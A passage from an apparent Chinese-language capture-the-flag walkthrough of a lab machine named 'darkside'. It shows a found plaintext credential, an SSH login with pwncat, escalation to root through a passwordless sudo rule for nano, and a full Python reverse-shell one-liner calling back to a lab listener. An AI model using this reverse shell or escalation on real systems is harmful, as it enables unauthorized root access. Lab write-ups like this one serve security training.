 获得一个凭据

```plaintext
rijaba:ILoveJabita
```

## User - rijaba

```shell
┌─[randark@parrot]─[~]
└──╼ $pwncat-cs rijaba@192.168.56.107
[17:02:02] Welcome to pwncat 🐈!
Password: ***********
[17:02:05] 192.168.56.107:22: normalizing shell path
[17:02:06] 192.168.56.107:22: registered new host w/ db
(local) pwncat$ back
(remote) rijaba@darkside:/home/rijaba$ whoami
rijaba
```

### 提权探测

```plaintext title="sudo -l"
Matching Defaults entries for rijaba on darkside:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User rijaba may run the following commands on darkside:
    (root) NOPASSWD: /usr/bin/nano
```

尝试提权

```shell
(remote) rijaba@darkside:/home/rijaba$ sudo /usr/bin/nano
```

然后 `Ctrl` + `T`，执行指令

```shell
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.102",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```

成功收到回连的shell

## User - root

```shell
┌─[randark@parrot]─[~]
└──╼ $pwncat-cs -lp 9999
[17:07:03] Welcome to pwncat 🐈!
[17:07:34] received connection from 192.168.56.107:33802
[17:07:34] 192.168.56.107:33802: registered new host w/ db
(local) pwncat$ back
(remote) root@darkside:/home/rijaba# whoami
root
```
